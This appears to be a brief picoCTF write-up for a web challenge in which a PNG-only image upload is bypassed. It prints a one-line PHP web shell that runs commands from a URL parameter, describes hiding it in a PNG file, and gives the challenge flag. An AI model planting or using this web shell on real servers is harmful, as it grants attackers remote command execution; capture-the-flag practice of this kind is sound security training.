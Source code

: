 # Description: #
Description
I found a web app that can help process images: PNG images only!

# Solution #
Based on the description, I knew that it would be a file upload vulnerability.

My payload:
```php
<?php system($_GET['cmd']); ?>
```
I inject it to a png file named [blue.png]() I downloaded online

Flag: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}
